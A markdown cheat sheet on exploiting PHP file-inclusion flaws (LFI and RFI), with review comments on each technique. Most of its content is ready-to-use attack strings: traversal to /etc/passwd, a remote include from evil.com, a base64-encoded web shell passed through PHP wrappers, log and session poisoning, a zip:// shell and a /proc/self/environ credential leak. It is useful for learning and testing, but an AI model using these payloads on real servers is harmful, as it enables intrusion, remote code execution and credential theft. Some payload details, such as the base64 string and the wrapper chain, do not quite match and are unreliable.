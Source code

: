 ## Exploiting File Inclusion Vulnerabilities: LFI and RFI

### Table of Contents
1. [Local File Inclusion (LFI)](#1-local-file-inclusion-lfi)
2. [Remote File Inclusion (RFI)](#2-remote-file-inclusion-rfi)
3. [PHP Wrappers](#3-php-wrappers)
4. [Data Wrappers](#4-data-wrappers)
5. [PHP Session Files](#5-php-session-files)
6. [Log Poisoning](#6-log-poisoning)
7. [Additional Exploitation Methodologies](#7-additional-exploitation-methodologies)
   - [Null Byte Injection](#71-null-byte-injection)
   - [Path Traversal with Encoding](#72-path-traversal-with-encoding)
   - [Zip Wrapper for Code Execution](#73-zip-wrapper-for-code-execution)
   - [Proc Filesystem Exploitation](#74-proc-filesystem-exploitation)

---

### 1. Local File Inclusion (LFI)
**Description**: LFI allows attackers to include files already present on the server by manipulating input parameters.

**Example**:
```php
<?php
  include($_GET['page']); // Vulnerable code
?>
```
**URL**:
```
http://example.com/index.php?page=about.php
```
**Attack**:
```
http://example.com/index.php?page=../../../../etc/passwd
```
This may expose sensitive files like `/etc/passwd` if input isn’t sanitized.

**Validation**: Correct. The example demonstrates a classic LFI vulnerability. Path traversal (`../`) is used to navigate the filesystem. However, modern systems may have protections like `open_basedir` or input validation, which can limit this attack.

---

### 2. Remote File Inclusion (RFI)
**Description**: RFI allows attackers to include remotely hosted files, potentially executing malicious code.

**Example**:
```php
<?php
  include($_GET['page']); // Vulnerable code
?>
```
**URL**:
```
http://example.com/index.php?page=http://evil.com/malicious.php
```
If `allow_url_include` is enabled in `php.ini`, the remote script executes on the server.

**Validation**: Accurate, but RFI is less common today because `allow_url_include` is disabled by default in PHP since version 5.2. Ensure the remote file has a `.php` extension or is executable, as servers may reject non-PHP files.

---

### 3. PHP Wrappers
**Description**: PHP wrappers (e.g., `php://filter`) allow access to data streams, enabling file reading or code execution.

**Example (File Reading)**:
```
php://filter/convert.base64-encode/resource=/etc/passwd
```
The server returns the base64-encoded content of `/etc/passwd`, which can be decoded.

**Example (Code Execution)**:
Payload:
```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```
Base64-encoded:
```
PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```
Full URL:
```
http://example.com/index.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```
This decodes and executes the payload, running the `whoami` command.

**Validation**: Mostly correct. The `php://filter` wrapper is a powerful LFI technique. However, the `data://` wrapper is better categorized separately (see below). Also, `php://filter` requires precise syntax, and some servers may block `base64-decode` due to security filters.

---

### 4. Data Wrappers
**Description**: The `data://` wrapper embeds inline data, often for code execution.

**Example**:
```
data://text/plain,<?php%20phpinfo();%20?>
```
This executes `phpinfo()`, revealing server configuration.

**Validation**: Correct. The `data://` wrapper is effective for RFI when `allow_url_include` is enabled. Ensure URL-encoding (e.g., `%20` for spaces) is used correctly to avoid syntax errors.

---

### 5. PHP Session Files
**Description**: Attackers inject malicious code into session files, then use LFI to include and execute them.

**Exploitation**:
1. Inject PHP code (e.g., `<?php echo phpinfo(); ?>`) into a session variable via a parameter.
2. The code is stored in a session file (e.g., `/var/lib/php/sessions/sess_[sessionID]`).
3. Use LFI to include the session file:
```
http://example.com/index.php?page=/var/lib/php/sessions/sess_[sessionID]
```
Replace `[sessionID]` with the `PHPSESSID` cookie value.

**Validation**: Accurate. This technique requires control over session data and knowledge of the session file path. It’s effective but depends on predictable session storage and lax input validation.

---

### 6. Log Poisoning
**Description**: Attackers inject PHP code into server logs, then use LFI to include and execute the log file.

**Exploitation**:
1. Inject PHP code (e.g., `<?php echo phpinfo(); ?>`) into logs via:
   - User-Agent header
   - Malicious URL (e.g., `GET /<?php echo phpinfo(); ?>`)
   - Referrer header
2. Use Netcat to send the payload:
   ```
   nc 10.10.173.214 80
   GET /<?php echo phpinfo(); ?> HTTP/1.1
   Host: example.com
   ```
3. Include the log file via LFI:
   ```
   http://example.com/index.php?page=/var/log/apache2/access.log
   ```

**Validation**: Correct, but log poisoning requires write access to logs (e.g., via HTTP requests) and knowledge of the log file path. Modern servers may sanitize logs or restrict LFI to prevent this.

---

### 7. Additional Exploitation Methodologies

#### 7.1 Null Byte Injection
**Description**: Older PHP versions (<5.3) allowed null byte (`%00`) to truncate file paths, bypassing extension checks.

**Example**:
```
http://example.com/index.php?page=/etc/passwd%00
```
The `%00` null byte tricks the server into ignoring anything after it (e.g., `.php` suffix).

**Note**: This is obsolete in modern PHP due to stricter input handling but may work on legacy systems.

---

#### 7.2 Path Traversal with Encoding
**Description**: Attackers use encoded characters (e.g., URL, double URL, or UTF-8 encoding) to bypass filters.

**Example**:
```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```
`%2e%2e%2f` decodes to `../`, allowing directory traversal.

**Use Case**: Effective against weak input sanitization that fails to decode URLs before processing.

---

#### 7.3 Zip Wrapper for Code Execution
**Description**: The `zip://` wrapper allows including files within a zip archive, potentially executing code.

**Exploitation**:
1. Create a zip file (`malicious.zip`) containing a PHP file (e.g., `shell.php` with `<?php system($_GET['cmd']); ?>`).
2. Upload the zip file to the server (if possible) or host it remotely.
3. Use LFI to include:
   ```
   http://example.com/index.php?page=zip://malicious.zip#shell.php
   ```

**Note**: Requires `zip` extension enabled and a way to place the zip file on the server.

---

#### 7.4 Proc Filesystem Exploitation
**Description**: On Linux, the `/proc` filesystem contains runtime data that can be included via LFI to leak sensitive information.

**Example**:
```
http://example.com/index.php?page=/proc/self/environ
```
This may reveal environment variables, including database credentials or API keys.

**Use Case**: Useful for reconnaissance when direct file access is restricted.

---
